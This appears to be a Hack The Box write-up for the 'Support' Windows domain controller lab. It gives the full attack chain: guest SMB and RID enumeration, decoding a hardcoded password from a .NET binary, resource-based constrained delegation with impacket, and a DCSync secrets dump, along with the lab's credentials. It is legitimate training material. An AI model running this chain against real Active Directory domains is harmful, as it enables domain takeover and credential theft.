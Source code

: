 ```yaml
---
title : "[HTB] Windows Machine: Support"
date: 2025-05-09 00:00:00 +0800
tags: [ad,htb, practice, rcbd, dcsync]
categories: [ad,htb, practice, rcbd, dcsync]
---
```


# Enumeration

## Port scan

```
# Nmap 7.94SVN scan initiated Fri May  9 21:07:56 2025 as: /usr/lib/nmap/nmap -sC -sV -vv -oN ports -T4 -p- 10.10.11.174
Nmap scan report for 10.10.11.174
Host is up, received echo-reply ttl 127 (0.13s latency).
Scanned at 2025-05-09 21:07:56 CEST for 366s
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-09 19:12:28Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49740/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-09T19:13:20
|_  start_date: N/A
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 19493/tcp): CLEAN (Timeout)
|   Check 2 (port 6220/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 14255/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  9 21:14:02 2025 -- 1 IP address (1 host up) scanned in 366.26 seconds

```

# Exploitation

## SMB Guest

The SMB share allows the access as the `guest` user.

```bash
nxc smb support.htb -u 'guest' -p '' --shares
```

![](/assets/Support/Support-SMBGuest.png)

Since we have read access over `IPC$` we can also enumerate the users.

```bash
nxc smb support.htb -u 'guest' -p '' --rid-brute
```

By enumerating the share `support-tools` we find a custom binary named UserInfo.exe.zip

```
smbclient -U support.htb/Guest "\\\\support.htb\\support-tools"
```

![](/assets/Support/Support-Shares.png)


## Decrypting password

Since this is a `.NET` binary it can be disassembled by using `ilspy`. Here we can find three things:
* A valid username, which is `ldap` (we already knew this from the `--rid-brute` enumeration)
* An encrypted password and the used key
* The encryption algorithm

![](/assets/Support/Support-Username.png)

![](/assets/Support/Support-EncAndKey.png)


![](/assets/Support/Support-EncryptionAlgorithm.png)

```text
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
```

```c#
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

```c#
// UserInfo, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null  
// UserInfo.Services.Protected  
using System;  
using System.Text;  
  
public static string getPassword()  
{  
    byte[] array = Convert.FromBase64String(enc_password);  
    byte[] array2 = array;  
    for (int i = 0; i < array.Length; i++)  
    {  
        array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);  
    }  
    return Encoding.Default.GetString(array2);  
}
```
This encryption can be easily reversed by using the following python script

```python
import base64


password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando".encode('utf-8')

print(key)
password_bytes = base64.b64decode(password)
plaintex = []
for idx,b in enumerate(password_bytes):
    plaintex.append(chr(b^223^key[idx%len(key)]))

print(''.join(plaintex))
```

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## From ldap user to support user

Since now we have the credentials for a domain user we can enumerate the domain. We can start by looking at the users:
```bash
ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "(objectClass=person)"
```

Here we can notice that the user `support` has the `info` parameter populated by a string. This is the plaintext password of the `support` user.

![](/assets/Support/Support-SupportPassword.png)

```
support:Ironside47pleasure40Watchful
```


## From support user to Domain Admin

By looking at the bloodhound output, now we can notice that the `support` user has `GenericWrite` over the domain controller. 

![](/assets/Support/Support-GenericAllOnDC.png)

Since the **machine account quota** for the user `support` is set to 10 (the default), we can abuse this misconfiguration by using `resource-based constrained delegation`

![](/assets/Support/Support-MAQ.png)


We add a new computer to the domain:
```
impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```
We set the `rbcd` on the DC

```
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

We impersonate the `Administrator` user and we request a TGS ticket for the `LDAP` service.

```
impacket-getST -spn 'ldap/dc.support.htb' -impersonate 'Administrator' 'support.htb/attackersystem$:Summer2018!'
```

With this ticket we can perform a `DCSync` attack.

```
export KRB5CCNAME=Administrator@ldap_dc.support.htb@SUPPORT.HTB.ccache
impacket-secretsdump -k -no-pass dc.support.htb
```


